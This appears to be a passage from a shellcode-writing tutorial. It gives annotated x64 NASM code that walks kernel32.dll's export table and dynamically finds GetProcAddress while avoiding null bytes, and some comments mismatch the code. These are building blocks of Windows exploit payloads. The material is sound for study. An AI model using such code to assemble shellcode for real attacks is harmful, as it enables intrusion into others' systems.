 ```nasm
mov rbx, [rsi+0x30]               ; kernel32.dll base address
mov r8, rbx                       ; mov kernel32.dll base addr into r8
xor rcx, rcx                      ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                      ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]                ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                       ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]              ; Number of functions
xor r11, r11                      ; Zero R11 before use
mov r11d, [rdx+0x20]              ; AddressOfNames RVA
add r11, r8                       ; AddressOfNames VMA
mov rcx, r10                      ; store number of functions for future use
```

***Dynamically Locating GetProcAddress***
-
```nasm
mov rax, 0x9090737365726464       ; 'ddress'
shl rax, 0x10                     ; 7373657264640000
shr rax, 0x10                     ; 0000737365726464 terminate our string w/ no nulls present in our shellcode!
push rax
mov rax, 0x41636F7250746547       ; GetProcA 
push rax
mov rax, rsp	
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    ; Load first 8 bytes of "LoadLibrary"
    mov r9, qword [rax]           ; R9 = "GetProcA"
    cmp [rbx], r9                 ; Compare first 8 bytes
    jnz kernel32findfunction      ; If not equal, continue loop
    ; Check next part for "aryA" (4 bytes)
    mov r9d, dword [rax + 8]      ; R9 = "ddress"
    cmp [rbx + 8], r9d            ; Compare remaining part
    jz FunctionNameFound          ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
    int3
FunctionNameFound:
    push rcx
    pop r15                       ; getprocaddress position
    inc r15   
    xor r11, r11
    mov r11d, [rdx+0x1c]          ; AddressOfFunctions RVA
    add r11, r8                   ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
    mov eax, [r11+r15*4]          ; Get the function RVA.
    add rax, r8                   ; Found the GetProcAddress WinApi!!!
    push rax                      ; push GetProcAddress temporarily to be used by next segment
```
